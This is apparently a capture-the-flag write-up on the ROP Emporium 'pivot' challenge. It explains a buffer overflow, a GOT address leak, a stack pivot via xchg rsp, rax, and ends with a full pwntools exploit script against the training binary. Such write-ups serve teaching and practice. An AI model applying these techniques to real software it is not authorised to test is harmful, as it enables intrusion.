 ```yaml
---
layout: post
title:  "Rop Emporium - Pivot"
date:   "2023-07-27"
categories: [pwn, ropemporium]
usemathjax: false
---
```

 
Here is my write-up for Pivot! This is probably my second favorite challenge of the RopEmporium series. 

# Recon
According to the challenge description we have to call the `ret2win()` function which resides in the shared library given to us called `libpivot.so`. The problem is PIE is enabled on `libpivot.so`. This means that even though it is accessible at runtime, we have no idea where `ret2win()` will be located in order to call it. Somehow we must leak a value in `libpivot.so` at runtime, calculate the base address of `libpivot.so` and then find the address at runtime of `ret2win()`. And it looks like there is one such function that will allow us to do just that. 

Looking at the functions in the `pivot` binary in GDB, we see a function called `foothold_function()`. 

![](pivot-functions.png)

The challenge description hints that we will have to call this `foothold_function()` so that it will update its entry in the GOT. Then we will have to find a way to print out it's value in the GOT. The function's GOT value will be the address where it currently resides in `libpivot.so` at runtime. We can use this information to find the base address of `libpivot.so` and then  by extension the address of `ret2win()` at runtime. Now, let's have a look at the program itself so that we can get an idea of how to achieve this. 

![](program-menu.png)

When we run the program, we are presented with two prompts. The first asks us to send a ROP chain and tells us that it will land at a specific address. The second prompt asks us to smash the stack. So, based on what we know, the exploit chain will look something like this. At the first prompt, we will send a ROP chain that calls `foothold_function()` in order to populate the GOT and calls `puts()` with the `foodhold_function@got` address as the main argument so that we can print out the address of `foothold_function()` in the GOT at runtime. We will then return back to main so that we can finish our exploit chain. 

# Exploitation
The first payload, written with python and pwntools, can be seen below. 

```python
payload1 = flat([
    elf.symbols['foothold_function'],
    pop_rdi,
    elf.symbols.got['foothold_function'],
    elf.plt.puts,
    elf.symbols.main
])

p.sendline(payload1)
```

We call the `foothold_function()` (we can do this because it is imported into the program itself) and use a `pop rdi; ret;` gadget to pop the address of the `foothold_function()` in the GOT into the `rdi` register. This is where the first function argument is stored according to x86_64 bit calling conventions. Then, `puts()` is called which prints out the aforementioned address. Finally, `main()` is called so we can return back to the start of the program to finish our exploit chain. 

Now that's the first stage of the exploit written. The only problem is, after we send it and arrive at the second prompt, our ROP chain lays dormant at the `pivot` address we are given. So, somehow, we will have to utilize the second prompt to attempt to redirect program execution to our dormant ROP chain. 

The program itself hints that we will have to smash the stack and cause a buffer overflow to redirect program execution and this is confirmed by looking in Ghidra. 

```c
void pwnme(void *param_1)
{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Call ret2win() from libpivot");
  printf("The Old Gods kindly bestow upon you a place to pivot: %p\n",param_1);
  puts("Send a ROP chain now and it will land there");
  printf("> ");
  read(0,param_1,0x100);
  puts("Thank you!\n");
  puts("Now please send your stack smash");
  printf("> ");
  read(0,local_28,0x40);
  puts("Thank you!");
  return;
}
```

Above we can see that when we are asked to smash the stack, we are reading in 0x40 bytes into a 32 byte buffer. Here is our buffer overflow! Now we can hop into GDB to find the number of bytes we will need in order to cause the buffer overflow and gain control of the instruction pointer. 

![](stack-smash.png)

And, using a cyclic pattern, we found that the offset to the instruction pointer (`rip`) is 40 bytes! So now that we control program execution, how will we redirect execution to our ROP chain stored elsewhere in memory? That is where the `usefulGadgets()` function comes in! 

![](usefulgadgets.png)

The gadgets we are interested in are the `pop rax; ret;` and `xchg rsp, rax; ret` gadgets. These would allow us to pop our pivot address we are given into `rax`. Then we can call the `xchg` gadget which will take our address we popped into `rax` and put it into `rsp`. Now our stack pointer points to our dormant ROP chain in memory. That payload would look like the following. 

```python
offset = 40
pop_rax = 0x00000000004009bb
xchg_rsp_rax = 0x00000000004009bd

payload2 = flat([
    offset * 'a',
    pop_rax,
    pivot_address,
    xchg_rsp_rax
])
```

So once we send our second payload, our first payload will then execute. And as a result, we are back at `main()`. Before we can send our third payload to call `ret2win()` we need to take care of some things. As a result of our first ROP chain we have the address of `foothold_function()` at the GOT. We'll need to parse this address and then calculate the base address of `libpivot.so`. That code would look like the following. 

```python
libpivot = ELF('libpivot.so')

p.sendline(payload2)
p.recvuntil(b'libpivot')
data2 = p.recv()
data2 = data2.split(b'\n')
print(f'\nLeaked string here {data2[1]}\n')
byte_string = data2[1]
foothold_got = int(binascii.hexlify(byte_string[::-1]).decode('utf-8'), 16)

print(f'foothold@got {hex(foothold_got)}')

libpivot_base = foothold_got - libpivot.symbols.foothold_function
ret2win = libpivot_base + libpivot.symbols.ret2win
```

Once we receive our leaked address we can parse it and convert it to an integer. Then we can take our leaked address and subtract it by its offset within `libcpivot.so`. This will yield our `libpivot.so` base address! Then we can calculate the address of the `ret2win()` function by adding the `ret2win()` offset found in `libpivot.so` with the `libpivot.so` base address. Now we know the location of `ret2win()` at runtime! And we can have a look below at what our exploit looks like so far when we run the script. 

![](twopayloads-down.png)

So, now that we are back at `main()` we can send our final payload. This payload is quite simple; 40 bytes of junk and then our `ret2win()`  address! 

```python
payload3 = flat([
    offset * 'a',
    ret2win
    
])
p.sendline(payload3)
p.interactive()
```

With those three payloads we should get our flag. And we do, how about that! 

![](flag.png)

Below is the full exploit script. I hope you enjoyed this write-up! 

```python
from pwn import * 
import binascii

elf = context.binary = ELF('pivot')
libpivot = ELF('libpivot.so')

context.log_level = 'critical'

p = elf.process()

pop_rdi = 0x0000000000400a33

offset = 40

payload1 = flat([
    elf.symbols['foothold_function'],
    pop_rdi,
    elf.symbols.got['foothold_function'],
    elf.plt.puts,
    elf.symbols.main
])

p.recvuntil(b'pivot: ')
data = p.recv()
data = data.split(b'\n')
pivot_address = int(data[0].decode(), 16)
print(f'Pivot address @ {hex(pivot_address)}')

p.sendline(payload1)

pop_rax = 0x00000000004009bb
xchg_rsp_rax = 0x00000000004009bd

payload2 = flat([
    offset * 'a',
    pop_rax,
    pivot_address,
    xchg_rsp_rax
])

p.sendline(payload2)
p.recvuntil(b'libpivot')
data2 = p.recv()
data2 = data2.split(b'\n')
print(f'\nLeaked string here {data2[1]}\n')
byte_string = data2[1]
foothold_got = int(binascii.hexlify(byte_string[::-1]).decode('utf-8'), 16)

print(f'foothold@got {hex(foothold_got)}')

libpivot_base = foothold_got - libpivot.symbols.foothold_function
ret2win = libpivot_base + libpivot.symbols.ret2win

payload3 = flat([
    offset * 'a',
    ret2win
    
])

p.sendline(payload3)
p.interactive()
```
